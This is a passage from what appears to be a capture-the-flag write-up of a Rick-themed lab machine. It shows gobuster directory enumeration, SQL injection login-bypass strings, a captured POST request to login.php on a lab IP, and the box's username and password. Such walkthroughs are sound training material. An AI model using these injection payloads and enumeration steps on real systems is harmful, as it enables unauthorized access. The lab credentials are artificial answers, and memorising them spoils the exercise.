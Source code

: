 **Port 80 HTTP**

**Port 22/TCP**

Could be Command Injection Exploit.

## STEP 4 :

Fetching Directories using Gobuster

```bash
gobuster -u $IP -w /path/wordlists/txt
```
**Login.php**

**Index.php**


## STEP 5 :

Checking for **Sql injection** on **POST** request **Login.php**

```bash
1' OR '1'='1
```
```bash
1' --
```

```bash
1' #
```

```http
POST /login.php HTTP/1.1
Host: 10.10.62.191
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.62.191
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.62.191/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=d85ms1102h7qnofpd39gceb030
Connection: close

username=R1ckRul3s&password=1sdfsub=Login
```
## STEP 6 :
Checking with username=**R1ckRul3s** and password=**Wubbalubbadubdub**
